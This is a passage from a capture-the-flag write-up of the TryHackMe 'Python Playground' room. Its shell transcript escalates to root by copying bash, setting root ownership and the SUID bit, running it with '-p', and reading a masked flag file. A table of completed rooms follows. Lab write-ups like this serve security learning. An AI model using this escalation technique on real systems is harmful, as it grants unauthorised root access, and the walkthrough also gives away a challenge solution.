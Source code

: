 ```bash
connor@pythonplayground:/var/log/assessment$ cp /bin/bash bash
```

```bash
connor@pythonplayground:/var/log/assessment$ ls -la
total 1096
drwxrwxrwx  2 root   root      4096 Sep 9 xx:xx .
drwxrwxr-x 10 root   syslog    4096 Sep 9 xx:xx ..
-rwxr-xr-x  1 connor connor 1113504 Sep 9 xx:xx bash
```

```bash
root@playgroundweb:/mnt/log/assessment# chown root:root bash
```

```bash
root@playgroundweb:/mnt/log/assessment# chmod 4755 bash
```

```bash
connor@pythonplayground:/var/log/assessment$ ./bash -p
bash-4.4# id
uid=1000(connor) gid=1000(connor) euid=0(root) groups=1000(connor)
bash-4.4# pwd
/var/log/assessment
bash-4.4# cd /root
bash-4.4# ls
flag3.txt
bash-4.4# cat flag3.txt
THM{*******************************}
```

<br>
<p>1.3. What is flag 3?<br>
<code>THM{*******************************}</code></p>
<br>
<br>
<br>
<h2 align="center">Completed</h2>
<p align="center"><img width="1200px" src="https://github.com/user-attachments/assets/d950d9ad-ee52-40a5-986b-d1550eb3ae4b"><br>
                  <img width="800px" src="https://github.com/user-attachments/assets/557cccd4-160a-4360-94d3-14f2937d3973"></p>

<h2 align="center">My TryHackMe Journey</h2>


<div align="center"><h6>

| Date              | Room                                  |Streak   |   All Time   |   All Time   |   Monthly   |   Monthly  | Points   | Rooms     | Badges    |
|:------------------|:--------------------------------------|--------:|:-----------: | :----------: | :---------: | :--------: | :------  | :-------: | :-------: |
|                   |                                       |         |    Global    |    Brazil    |   Global    |   Brazil   |          | Completed |           |
| 2025, Sep 9       |Hard 🚩 - <code><strong>Python Playground</strong></code>| 491| 111ˢᵗ | 5ᵗʰ   |     693ʳᵈ    |     9ᵗʰ    | 125,236  |    955    |    73     |
| 2025, Sep 9       |Hard 🚩 - Borderlands                  | 491    |     111ˢᵗ    |      5ᵗʰ     |     713ʳᵈ    |    10ᵗʰ    | 125,146  |    954    |    73     |
| 2025, Sep 9       |Medium 🚩 - Forgotten Implant          | 491    |     112ⁿᵈ    |      5ᵗʰ     |     660ᵗʰ    |    10ᵗʰ    | 125,016  |    953    |    73     |
| 2025, Sep 8       |Easy 🔗 - Web Enumeration              | 490    |     112ⁿᵈ    |      5ᵗʰ     |     663ʳᵈ    |    10ᵗʰ    | 124,986  |    952    |    73     |
| 2025, Sep 8       |Easy 🔗 - iOS: Forensics               | 490    |     113ʳᵈ    |      5ᵗʰ     |     548ᵗʰ    |     9ᵗʰ    | 124,850  |    951    |    73     |
| 2025, Sep 7       |Medium 🚩 - VulnNet: Active            | 489    |     114ᵗʰ    |      5ᵗʰ     |     542ⁿᵈ    |     9ᵗʰ    | 124,746  |    950    |    73     |
| 2025, Sep 7       |Medium 🚩 - pyLon                      | 489    |     114ᵗʰ    |      5ᵗʰ     |     535ᵗʰ    |     9ᵗʰ    | 124,716  |    949    |    73     |
| 2025, Sep 7       |Medium 🚩 - Pressed                    | 489    |     113ʳᵈ    |      5ᵗʰ     |     508ᵗʰ    |     9ᵗʰ    | 124,886  |    948    |    73     |
| 2025, Sep 6       |Easy 🚩 - Classic Passwd               | 488    |     114ᵗʰ    |      5ᵗʰ     |     683ᵗʰ    |    12ⁿᵈ    | 124,476  |    947    |    73     |
| 2025, Sep 6       |Medium 🚩 - toc2                       | 488    |     114ᵗʰ    |      5ᵗʰ     |     695ᵗʰ    |    12ⁿᵈ    | 124,446  |    946    |    73     |